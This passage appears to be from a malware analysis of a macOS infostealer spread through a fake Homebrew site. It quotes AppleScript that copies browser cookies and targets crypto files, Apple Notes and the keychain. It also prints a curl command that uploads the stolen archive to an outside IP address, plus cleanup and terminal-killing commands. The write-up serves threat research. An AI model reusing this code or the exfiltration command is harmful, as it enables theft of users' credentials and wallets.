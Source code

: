 ```
	readwrite2(profile & "/Library/Containers/com.apple.Safari/Data/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/Cookies.binarycookies")
	readwrite(profile & "/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/saf1")
end if
if filegrabbers then
	filegrabber(writemind)
end if
writeText(username, writemind & "username")
set ff_paths to {library & "Firefox/Profiles/", library & "Waterfox/Profiles/", library & "Pale Moon/Profiles/"}
```

It goes after:
- Browser files
- Crypto files
- Apple notes
- Mac OS keychain
### Sending the Results

```
curl -X POST -H \"user: y4CesUC1cxsB9LSNtlrLYJfkctcWwvyW/aWZf12pTkk=\" -H \"BuildID: hYoyhCi0fMW7ns2Jn6Wq9wJm8WHNhuJMb7KvOOCC8No=\" -H \"cl: 0\" -H \"cn: 0\" --max-time 300 -retry 5 -retry-delay 10 -F \"file=@/tmp/out.zip\" http://81.19.135.54/joinsystem
```

### Cleaning Up

```
do shell script "rm -r " & writemind
do shell script "rm /tmp/out.zip"
```

### Second system call

The second call just closes the terminal.

```
disown; pkill Terminal
```
### Threat Intel

It looks like `brewe[.]sh` was registered on `2024-12-22`.

![[Pasted image 20250125222548.png]]

[cyb3r-hawk](https://medium.com/@cyb3r-hawk/theres-a-clone-of-brew-brewe-sh-612e4d03e1f6) also identified the following domains associated with this campaign:

```
homebrew[.]cx
```

`homebrew[.]cx` appears to be an older version. According to the Wayback Machine, it appeared very similar to the sites. It was last active around may 2024 ![[Pasted image 20250125220622.png]]
